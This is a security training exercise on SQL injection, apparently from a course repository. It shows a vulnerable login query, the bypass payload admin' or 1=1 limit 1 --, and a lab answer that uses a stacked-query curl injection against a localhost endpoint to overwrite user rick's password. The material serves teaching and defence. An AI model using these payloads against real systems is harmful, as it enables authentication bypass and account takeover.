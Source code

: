 ## Exercise 1 - SQL Injection

SQL injection is the ability of an attacker to execute arbitrary SQL into an insecurely created query. They might do this to attempt to gain access to the system, cause destruction by deleting rows, or list vital information that they should not have access to.

The way SQL injections are constructed is by the use of escape characters such as `'` which allows an attacker to escape out of the intended query with their own input and execute another query directly against the database.

For example, let's say we had some logic such as the following (in pseudocode):

```
this is a dummy change

username := user input from HTML form
password := user input from HTML form
hashedPassword := md5(password)

sql := "select * from admins where username = '" + username "' and password = '" + hashedPassword + "' limit 1"
executeQuery(sql)
```

This is a valid SQL string that is taking user input for username and password, hashing the password and comparing the hashed password to that in the database. This is a very common way to authenticate users to a platform, but is also easily able to be abused.

Let's say we are an attacker and want to execute some arbitrary SQL into this.

1. Which field would we exploit?
2. What string would we place into that field?
3. Who would this log us in as?

<details>
  <summary>Answer</summary>

  1. We would need to chose the `username` field in this case because if we chose the password field, our exploit would be hashed before it reaches the database.
  2. We could use something similar to the following as the `username` field to gain access:
  ```
  admin' or 1=1 limit 1 --
  ```
  **Followup Question: Why do we need the `--`?**
  3. This would log us in as the first admin depending on the sort order.

</details>

# Lab

Try to exploit the endpoint `/login` using a SQL injection. A valid, but unauthorized request looks like this:

```
curl -XPOST -H 'Content-Type: application/json' -d '{"username":"rick", "password":"password"}' 'http://localhost:8080/login'
```

Try to gain access as the user `rick`.

<details>
  <summary>Answer</summary>

  Though you may not be able to execute a 1=1 type login, you can still update the password and re-login a separate time

  ```
  $ curl -XPOST -H 'Content-Type: application/json' -d "{\"username\":\"rick'; update users set password=md5('password') where username = 'rick' --\", \"password\":\"foo\"}" 'http://localhost:8080/login'
  ```

  We should get an error and that's fine, we've broken the JDBC parser and successfully changed `rick`s password to something we know: `password`. Now try logging in with that password:

  ```
  $ curl -XPOST -H 'Content-Type: application/json' -d '{"username":"rick", "password":"password"}' 'http://localhost:8080/login' | jq .
  ```

</details>
